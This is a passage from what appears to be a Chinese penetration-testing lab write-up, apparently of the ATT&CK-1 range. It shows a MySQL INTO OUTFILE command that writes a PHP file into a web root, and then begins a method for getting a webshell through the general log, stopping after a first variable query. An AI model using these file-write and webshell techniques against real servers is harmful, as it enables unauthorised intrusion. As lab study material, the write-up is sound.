 尝试写入

```csharp
select "<?php phpinfo();?>" INTO OUTFILE  "C:\\phpStudy\\WWW\\a.php"
```

![Untitled](Att&ck-1%20e6cdaf0ecee347919ad5d9d090eddf75/Untitled%2011.png)

尝试用sql语句写文件，结果因为MySQL服务器使用`--secure file priv`选项运行，所以无法执行此语句；

**尝试通过写入日志文件getshell**

前提条件:

```csharp
读写权限+web绝对路径，修改日志文件为webshell
```

利用过程：

1、查看日志状态

```csharp
show variables like '%general%';
```
